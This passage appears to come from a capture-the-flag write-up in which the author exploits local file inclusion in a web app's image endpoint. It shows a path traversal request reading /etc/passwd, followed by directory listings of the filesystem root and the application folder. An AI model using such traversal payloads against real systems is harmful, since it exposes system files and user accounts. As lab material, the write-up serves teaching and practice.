 Once the image has been uploaded, I then receive the following path.
/show_image?img=grapes.jpg

## Exploting LFI
Sending the request to the Burp repeater and then attempting to exploit LFI with the following path "/show_image?img=../../../../../../etc/passwd" shows the following result.

![7](assets/7.png)

In the results above, 2 users on the machine can be seen, Phil and Frank.
This removes the assumption that the users Admin and Brandon Auger are the users that we want to try and hijack.

Sending another request at the root of the drive allows the user to see the following.
```go
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Some further enumeration shows the users and what files are stored in the root directory of the application. At the path `../../../../../../var/www/WebApp/` We can see the following.
```go
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
```